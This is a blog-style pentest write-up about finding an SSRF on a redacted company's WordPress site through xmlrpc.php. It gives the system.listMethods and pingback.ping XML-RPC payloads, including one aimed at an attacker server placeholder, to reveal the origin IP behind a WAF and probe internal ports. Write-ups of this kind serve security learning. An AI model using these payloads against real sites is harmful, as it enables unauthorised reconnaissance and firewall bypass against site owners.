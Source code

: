 ```yaml
---
title: How I Hacked A Billion Dollar Company :D
published: true
---
```

Hi Hackers, Today article is about how i hacked into a Billion dollar company i.e. SSRF via xmlrpc.php. I always wanted to find an SSRF in a website who knew i would find it during my pentest. I wouldn't disclose the company name so lets just call it redacted (Ofcourse :p).

I was assigned a task to pentest this company and i was issued a url https://redacted.com. I did how normally a web penetration testing goes, running my bash one-liners in order to get the subdomains and then running paramspider in order to get the parameters etc. Usually when i hunt for bugs, i go for targeting the subdomains because they are more vulnerable and ofcourse a less travelled path is more vulnerable. However the application itself was very strong and very hard to exploit. It took me days and i was suffering from burnouts. Until i found that the main domain which only consists of company blogs is running on wordpress. The first idea i got was i should run WPScan and i found that the version they are running on is old. I was like finally.
<p align="center">
  <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/hacked_Billion_Dollar_Company/Yes_image.jpg"/>
</p>
I went to the main domain and entered the url path of xmlrpc.php to see if it is leaking and YES IT WAS :D.   
But what is xmlrpc.php?   
XML-RPC aka is a XML remote procedure call protocol which encodes its calls.In short form, it is a file which is used for pulling POST data from a website using RPC.In a wordpress application, it is an API which allows the developers in order to manipulate the wordpress website for instance publishing a post, Editing a post, deleting or even to upload files.   
Anyways, i fired up my burp in order to intercept the request of the url. The url was **https://redacted.com/xmlrpc.php**.   
1) As soon as i intercepted the request, i send it to repeater and changed the request from GET to POST because xmlrpc only accepts POST request   
2) We need to fetch the list of methods in order to know which methods are available for a potential attack. I was mainly looking for pingback.ping method if it is available as that would lead me to a potential SSRF. I added the following code in the POST request in order to list the methods. 
```<methodCall>```   
```<methodName>system.listMethods</methodName>```   
```<params></params>```   
```</methodCall>```      
<p align="center">   
  <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/hacked_Billion_Dollar_Company/ssrf_1.jpg">
</p>       
3) From the screenshot above, we can see pingback.ping function is available. This could allow an attacker to initiate a request from the wordpress site to an arbitrary site. With pingback.ping function, we could abuse the system to diclose the real IP of the application that is sitting behind the WAF thus also bypassing firewall.
Thus with SSRF via pingback.ping function, we could scan the internal network to check which ports are open and directly attack the internal network. The following code was used in order to get the ping back to our server     
```<methodCall>```   
```<methodName>pingback.ping</methodName>```
```<params><param>```   
```<value><string>http://<YOUR SERVER>:<port></string></value>```   
```</param><param>```   
```<value><string>http://redacted.com/business/<string></value>```   
```</param></params>```      
```</methodCall>```   
Where the "YOUR SERVER" is the ip address of the attacker server and "port" is the port of the attacker server that is listening on. The "http://redacted.com/business" is the valid blog that is linked to the target application. I used pingb.in as my server in order to check the logs
<p align="center">
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/hacked_Billion_Dollar_Company/ssrf_2.jpg"/>
</p>   
4) We then send the modified request to the target application. However, if the value is greater than 0 then the port is open. Looking at the server side, we see numerous IP addresses that were disclosed that belonged to the target Application. Thus bypassing all security mechanisms and being exposed to an attack
<p align="center">
 <img src="https://raw.githubusercontent.com/Saad-20/Blog/master/assets/hacked_Billion_Dollar_Company/ssrf_3.jpg">
</p>

